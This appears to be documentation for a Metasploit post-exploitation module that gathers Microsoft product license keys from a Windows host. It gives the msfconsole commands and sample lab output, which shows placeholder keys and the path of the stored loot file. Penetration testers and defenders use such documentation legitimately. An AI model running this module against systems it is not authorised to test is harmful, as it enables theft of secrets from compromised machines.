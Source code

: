 ## Vulnerable Application

This module will enumerate Microsoft product license keys.

## Verification Steps

1. Start msfconsole
2. Get a session
3. Do: `use post/windows/gather/enum_ms_product_keys`
4. Do: `set SESSION <session id>`
5. Do: `run`

## Options

## Scenarios

### Windows 7 Professional SP1 (x64)

```
msf6 > use post/windows/gather/enum_ms_product_keys
msf6 post(windows/gather/enum_ms_product_keys) > set session 1
session => 1
msf6 post(windows/gather/enum_ms_product_keys) > run

[*] Finding Microsoft product keys on TEST (192.168.200.190)

Keys
====

 Product                 Registered Owner  Registered Organization  License Key
 -------                 ----------------  -----------------------  -----------
 Windows 7 Professional  Windows User                               N0TMY-K3Y55-N0TMY-K3Y55-N0TMY
 Windows 7 Professional  Windows User                               N0TMY-K3Y55-N0TMY-K3Y55-N0TMY


[+] Product keys stored in: /root/.msf4/loot/20220814092725_default_192.168.200.190_host.ms_keys_579592.txt
[*] Post module execution completed
```
